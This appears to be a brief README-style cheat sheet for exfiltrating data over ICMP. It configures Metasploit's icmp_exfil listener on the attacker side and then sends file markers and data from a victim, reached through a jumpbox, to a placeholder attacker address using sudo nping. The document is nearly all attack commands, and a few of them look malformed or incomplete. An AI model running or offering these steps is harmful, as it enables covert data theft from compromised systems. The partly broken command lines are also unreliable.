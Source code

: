 # ICMP Exfil

### Commands:

#### 1) Attacker: 

    msfconsole

#### 2) 

    use auxiliary/server/icmp_exfil

#### 3) 

    set BPF_FILTER icmp and not src ATTACKER_IP

#### 4) 

    set INTERFACE OUR_INTERFACE

#### 5) 

    run

#### 6) Jumpbox: 

    ssh USER@VICTIM_DOMAIN

#### 7) Victim: 

    sudo nping --icmp -c 1 ATTACK_IP --data-string

#### 8) Victim: 

    sudo nping --icmp -c 1 ATTACK_IP "BOFFile.txt" --data-string "data"

#### 9) 

    sudo nping --icmp -c 1 ATTACK_IP --data-string "EOF"

#### 10) Attacker: 

    run

